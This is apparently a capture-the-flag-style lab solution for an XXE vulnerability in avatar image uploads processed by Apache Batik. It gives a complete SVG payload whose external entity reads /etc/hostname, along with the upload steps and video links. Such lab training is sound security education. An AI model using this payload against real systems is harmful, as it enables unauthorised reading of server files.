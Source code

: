 # Lab 8: Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

## Solution
> Manual Exploitation
1. Create a local SVG image with the following content:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the /etc/hostname file in your image. Use the "Submit solution" button to submit the value of the server hostname.

## Video Solution
- [Sommer's Video](https://youtu.be/Ycv9_LpJPjo)
- [Seven Seas Security's Video](https://youtu.be/12gXUitWyU4)
